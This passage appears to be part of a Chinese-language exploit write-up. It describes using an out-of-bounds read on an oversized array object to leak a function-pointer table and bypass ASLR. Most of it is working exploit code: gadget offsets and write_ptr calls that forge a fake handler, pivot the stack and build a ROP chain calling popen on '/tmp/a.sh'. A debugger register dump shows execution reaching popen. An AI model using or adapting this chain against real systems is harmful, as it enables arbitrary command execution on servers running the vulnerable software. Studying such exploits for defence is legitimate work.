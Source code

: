 刚才那个长度超长的数组对象，除了可以越界读堆块的地址，还可以越界读对象的**函数指针列表地址**

这个地址在同一个bin文件里的地址是相对固定的，地址随机化就这么过掉了。

```
$push_rax=0x000000000033a9f3+$aslr_offset;// push rax; stc; jmp qword ptr [rax + 0x36];
$pop_rsp=0x00000000000d3923+$aslr_offset;//pop rsp; pop r13; ret;
$sub_rsp=0x0000000000106abe+$aslr_offset;// sub rsp, -0x80; pop rbx; ret;
$pop_rsi=0x00000000000094e8+$aslr_offset;// pop rsi; ret;
$pop_rdi=0x00000000000d3b2f+$aslr_offset;// pop rdi; ret;
$pop_rbp=0x00000000000d3925+$aslr_offset;// pop rbp; ret;
$p_popen=0x00000000000d2580+$aslr_offset;//popen

//Set Handlers
write_ptr($s,$heap_addr_of_fake_handler,0x40);
//Set fake handler

write_ptr($s,$aslr_offset,0x300);
//heap_addr_of_fake_handler and [rax] is here!

write_ptr($s,0x4141414141414141,0x300+0x48);
write_ptr($s,0x0000000000000072,0x300+0x50);//"r"
write_ptr($s,0x732e612f706d742f,0x300+0x58);//"/tmp/a.sh"
write_ptr($s,0x0000000000000068,0x300+0x60);

write_ptr($s,$push_rax,0x300+0x10);
write_ptr($s,$pop_rsp,0x300+0x36);
write_ptr($s,$sub_rsp,0x300+0x8);
//now,rsp=rax+0x98
write_ptr($s,$pop_rsp,0x300+0x98);
write_ptr($s,$heap_addr_of_fake_handler-0x100,0x300+0xa0);
//now,rsp=rax-0xf0

write_ptr($s,$pop_rsi,0x300-0xf8);
write_ptr($s,$heap_addr_of_fake_handler+0x50,0x300-0xf0);
write_ptr($s,$pop_rdi,0x300-0xe8);
write_ptr($s,$heap_addr_of_fake_handler+0x58,0x300-0xe0);
write_ptr($s,$pop_rbp,0x300-0xd8);
write_ptr($s,$heap_addr_of_fake_handler-0xb8,0x300-0xd0);
//now rsp=rax-0xc0,rbp=rax-0xb8

write_ptr($s,$p_popen,0x300-0xc8);

```

很乱的rop里该有的都有了，包括把栈帧指向刚才操作好的内存堆，方便行事。

```
[----------------------------------registers-----------------------------------]
RAX: 0x7fc6edc6ebd8 --> 0x7fc6f218a000 --> 0x10102464c457f
RBX: 0x0
RCX: 0x16
RDX: 0xc4f352ef5bf0be4a
RSI: 0x7fc6edc6ec28 --> 0x72 ('r')
RDI: 0x7fc6edc6ec30 ("/tmp/a.sh")
RBP: 0x7fc6edc6eb20 --> 0x0
RSP: 0x7fc6edc6eb18 --> 0x0
RIP: 0x7fc6f52fa540 (<_IO_new_popen>:   push   r12)
R8 : 0x20 (' ')
R9 : 0x0
R10: 0x2
R11: 0x38 ('8')
R12: 0x7fc6f2798c1c --> 0x0
R13: 0x7fc6f27ae8c0 --> 0x40 ('@')
R14: 0x7fc6edc12030 --> 0x7fc6e7458f70 --> 0x7fc6f2451a00 (push   r12)
R15: 0x7fc6e7458f70 --> 0x7fc6f2451a00 (push   r12)
```